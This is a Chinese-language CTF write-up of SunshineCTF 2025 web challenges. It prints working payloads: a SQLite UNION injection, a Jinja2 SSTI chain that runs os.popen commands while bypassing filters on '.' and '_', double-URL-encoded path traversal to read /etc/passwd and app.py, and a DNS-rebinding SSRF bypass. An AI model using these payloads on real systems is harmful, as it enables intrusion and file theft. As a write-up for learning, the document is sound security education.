# SunshineCTF 2025 Web 题解-先知社区

> **来源**: https://xz.aliyun.com/news/19097  
> **文章ID**: 19097

---

## Lunar Auth 图片.png提示我们要尝试成为管理员

我们访问/admin，经过测试发现验证是前端的，看一下源码

```
const real_username = atob("YWxpbXVoYW1tYWRzZWN1cmVk");
const real_passwd   = atob("UzNjdXI0X1BAJCR3MFJEIQ==");

document.addEventListener("DOMContentLoaded", () => {
  const form = document.querySelector("form");

  function handleSubmit(evt) {
    evt.preventDefault();

    const username = form.elements["username"].value;
    const password = form.elements["password"].value;

    if (username === real_username && password === real_passwd) {
      // remove this handler and allow form submission
      form.removeEventListener("submit", handleSubmit);
      form.submit();
    } else {
      alert("[ Invalid credentials ]");
    }
  }

  form.addEventListener("submit", handleSubmit);
});
```

解密一下账号密码

> alimuhammadsecured  
> S3cur4\_P@$$w0RD!

再去访问也就得到了flag

## Lunar Shop 图片.png根据游戏的提示我们得知，产品不止显示的在页面上的，偶们需要得到flag，同时fuzz受限

那肯定不是爆破id数来获得flag，尝试探索一下注入输入1'发现触发了sql的报错，那我们就从sql注入来入手探索发现是数字型注入，我们尝试获取数据库的信息

查询database()发现是sqlite注入，那就简单多了

> 1 union select 1,2,3,(select group\_concat(flag) from flag)



## Intergalactic Webhook Service

```
import threading
from flask import Flask, request, abort, render_template, jsonify
import requests
from urllib.parse import urlparse
from http.server import BaseHTTPRequestHandler, HTTPServer
import socket
import ipaddress
import uuid

def load_flag():
    with open('flag.txt', 'r') as f:
        return f.read().strip()

FLAG = load_flag()

class FlagHandler(BaseHTTPRequestHandler):
    def do_POST(self):
        if self.path == '/flag':
            self.send_response(200)
            self.send_header('Content-Type', 'text/plain')
            self.end_headers()
            self.wfile.write(FLAG.encode())
        else:
            self.send_response(404)
            self.end_headers()

threading.Thread(target=lambda: HTTPServer(('127.0.0.1', 5001), FlagHandler).serve_forever(), daemon=True).start()

app = Flask(__name__)

registered_webhooks = {}

def create_app():
    return app

@app.route('/')
def index():
    return render_template('index.html')

def is_ip_allowed(url):
    parsed = urlparse(url)
    host = parsed.hostname or ''
    try:
        ip = socket.gethostbyname(host)
    except Exception:
        return False, f'Could not resolve host'
    ip_obj = ipaddress.ip_address(ip)
    if ip_obj.is_private or ip_obj.is_loopback or ip_obj.is_link_local or ip_obj.is_reserved:
        return False, f'IP "{ip}" not allowed'
    return True, None

@app.route('/register', methods=['POST'])
def register_webhook():
    url = request.form.get('url')
    if not url:
        abort(400, 'Missing url parameter')
    allowed, reason = is_ip_allowed(url)
    if not allowed:
        return reason, 400
    webhook_id = str(uuid.uuid4())
    registered_webhooks[webhook_id] = url
    return jsonify({'status': 'registered', 'url': url, 'id': webhook_id}), 200

@app.route('/trigger', methods=['POST'])
def trigger_webhook():
    webhook_id = request.form.get('id')
    if not webhook_id:
        abort(400, 'Missing webhook id')
    url = registered_webhooks.get(webhook_id)
    if not url:
        return jsonify({'error': 'Webhook not found'}), 404
    allowed, reason = is_ip_allowed(url)
    if not allowed:
        return jsonify({'error': reason}), 400
    try:
        resp = requests.post(url, timeout=5, allow_redirects=False)
        return jsonify({'url': url, 'status': resp.status_code, 'response': resp.text}), resp.status_code
    except Exception:
        return jsonify({'url': url, 'error': 'something went wrong'}), 500

if __name__ == '__main__':
    print('listening on port 5000')
    app.run(host='0.0.0.0', port=5000)
```

这题给了源码，简单代码审计一下

我们现在想要本地访问/flag，但是

> # is\_private: 私有网段（如 10.0.0.0/8, 192.168.0.0/16 等）
>
> # is\_loopback: 回环地址（如 127.0.0.1）
>
> # is\_link\_local: 链路本地地址（169.254.0.0/16 ，以及 IPv6 fe80::/10）
>
> # is\_reserved: 保留地址（各种特殊用途地址）

waf判断，禁用了简单的上述ip，而且requests.post是不接受gopher协议

这里直接用 DNS 重绑定即可。

<https://lock.cmpxchg8b.com/rebinder.html>第一个 register 很简单，当解析到 8.8.8.8 的时候就会注册成功。到第二个 trigger 的时候原理差不多，这里也有一次检查，当我们检查的时候解析为 8.8.8.8，发起请求的时候为 127.0.0.1，ttl 很短，有点运气成分，可能要刷很多遍。

## Web Forge

提示可以fuzz，而且打开工具是/fetch提示我们需要正确的请求头

> 403 Forbidden: missing or incorrect SSRF access header

先目录扫描一下访问robots.txt看一下

> # internal SSRF testing tool requires special auth header to be set to 'true'

特殊请求头需要设置为true

爆破一下发现是Allow需要设置为true

成功访问/fetch，他是一个发送网页请求的工具，尝试用它访问http://127.0.0.1/admin

但是回显很奇怪提示我们要给template赋值，也是明显的提示跟模板注入有关

那我们尝试赋值http://127.0.0.1/admin?template={{7\*7}}

> ERROR: HTTPConnectionPool(host='127.0.0.1', port=80): Max retries exceeded with url: /admin?template=%7B%7B7\*7%7D%7D (Caused by NewConnectionError('<urllib3.connection.HTTPConnection object at 0x7989bc777790>: Failed to establish a new connection: [Errno 111] Connection refused'))

回显告诉我们尝试多次链接都失败了，那么很有可能目标服务不是跑在 80 端口，而是别的端口（常见 8080、5000、8000 等），也不用爆破试了试常见的发现就在8000端口这样也就打通了ssti，接下来绕过就比较简单了，只是禁用.和\_

payload如下

> http%3A%2F%2F127.0.0.1%3A8000%2Fadmin%3Ftemplate%3D%7B%7Brequest|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('ls')|attr('read')()%7D%7D

再拿flag就行注意通配绕过点号就行

## Lunar File Invasion

禁止fuzz，我们检查robots.txt发现一些子网



/.gitignore\_test给了我们一份文件

```
# this tells the git CLI to ignore these files so they're not pushed to the repos by mistake.
# this is because Muhammad noticed there were temporary files being stored on the disk when being edited
# something about EMACs.

# From MUHAMMAD: please make sure to name this .gitignore or it will not work !!!!

# static files are stored in the /static directory.
/index/static/login.html~
/index/static/index.html~
/index/static/error.html~
```

诸葛访问静态页面的内容只有/index/static/login.html~有东西，给我了我们html文件

```
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Admin Panel</title>
  </head>
  <body>
    <div>
      
      <form action="{{url_for('index.login')}}" method="POST">
        <!-- TODO: use proper clean CSS stylesheets bruh -->
        <p style="color: red;"> {{ err_msg }} </p>
        <input type="hidden" name="csrf_token" value="{{ csrf_token() }}" />
        <label for="Email">Email</label>
        <input value="admin@lunarfiles.muhammadali" type="text" name="email">

        <label for="Password">Password</label>
        <!-- just to save time while developing, make sure to remove this in prod !  -->
        <input value="jEJ&(32)DMC<!*###" type="text" name="password">
        <button type="submit">Login</button>
      </form>
    </div>
  </body>
</html>
```

关键是泄露了账号密码

> admin@lunarfiles.muhammadali  
> jEJ&(32)DMC<!\*###

可惜的是登陆后海域2FA验证但是我们登陆后再访问/admin/dashboard就直接绕过了这个2FA先探索一下，有用的是管理文件功能，查看文件时抓包发现了读取文件这里可能哟任意文件读取

我们先尝试读取/etc/passwd，但是访问/admin/download/../../etc/passwd是回显notfound，而访问/admin/download/../../../etc/passwd时回显400，猜测可能是有什么禁用

首先最可能的禁用就是对连续三个/..的禁用，但是./和../交替穿插后依然访问不到passwd，那么很有可能还进行了解码的处理

我们尝试url编码，经过两次编码后回显从400变为了302，那么很可能是我们目录穿越的次数不够，我们重新构建payload最终

> ./.././.././.././.././.././.././.././.././.././.././.././.././.././../etc/passwd

再url二次编码，成功访问到/etc/passwd我们逐级遍历app.py，%252E%252F%252E%252E%252F就对应./../

最终越三级目录就得到app.py

> %252E%252F%252E%252E%252F%252E%252F%252E%252E%252F%252E%252F%252E%252E%252Fapp.py

很庆幸的是直接得到了flag的位置，那就简单多了，直接读取flag
